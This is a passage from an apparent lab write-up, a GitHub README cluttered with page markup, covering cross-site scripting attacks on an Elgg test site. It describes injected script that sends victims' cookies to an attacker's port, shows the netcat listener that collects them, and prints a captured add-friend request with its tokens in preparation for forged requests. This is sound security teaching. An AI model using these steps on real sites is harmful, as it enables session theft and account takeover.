     <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">It will send an HTTP GET request to the port 5555 on the attacker with <code>document.cookie</code> whenever the profile page is accessed by any victim user.</p>
<p dir="auto">Then listen on the port 5555 on the attacker machine:</p>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre><code>nc -l 5555 -v
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="nc -l 5555 -v
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Once visiting the profile page ( <a href="http://www.xsslabelgg.com/profile/alice" rel="nofollow">http://www.xsslabelgg.com/profile/alice</a>) from VM <code>10.0.2.4</code>, then it will appear on the attacker:</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<h1 dir="auto"><a id="user-content-task-4" class="anchor" aria-hidden="true" href="#task-4"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 4</h1>
<p dir="auto">Try to log in as <code>alice</code> and add <code>samy</code> as a friend, during the process, <code>network</code> tool captures the request:</p>
<p dir="auto">HTTP header:</p>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre><code>Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest